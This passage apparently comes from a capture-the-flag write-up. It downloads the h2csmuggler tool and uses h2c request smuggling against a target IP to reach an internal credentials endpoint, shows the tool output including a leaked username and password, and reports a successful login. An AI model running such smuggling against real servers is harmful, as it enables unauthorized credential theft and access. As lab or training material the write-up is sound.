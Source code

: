 ```bash
wget https://raw.githubusercontent.com/BishopFox/h2csmuggler/master/h2csmuggler.py
python3 h2csmuggler.py -x https://3.23.94.118:9002 https://3.23.94.118:9002/api/v2/credentials

b'GET / HTTP/1.1\r\nHost: 3.23.94.118\r\nAccept: */*\r\nAccept-Language: en\r\nUpgrade: h2c\r\nHTTP2-Settings: AAMAAABkAARAAAAAAAIAAAAA\r\nConnection: Upgrade, HTTP2-Settings\r\n\r\n'
b'HTTP/1.1 101 Switching Protocols\r\nServer: nginx/1.18.0 (Ubuntu)\r\nDate: Thu, 21 Apr 2022 09:47:54 GMT\r\nConnection: upgrade\r\nUpgrade: h2c\r\n\r\n'
[INFO] h2c stream established successfully.
:status: 200
content-type: application/json
content-length: 44
date: Thu, 21 Apr 2022 09:47:54 GMT

{"Message":"Welcome to Cell Controller API"}

[INFO] Requesting - /api/v2/credentials
:status: 200
content-type: application/json
content-length: 68
date: Thu, 21 Apr 2022 09:47:54 GMT

{"username":"tamayo","password":"dCf3VkFt04Ds92S","app":"/cell-dev"}
```

This is successful and we get credentials. Login is success with these credentials. 

![](assets/home.png)
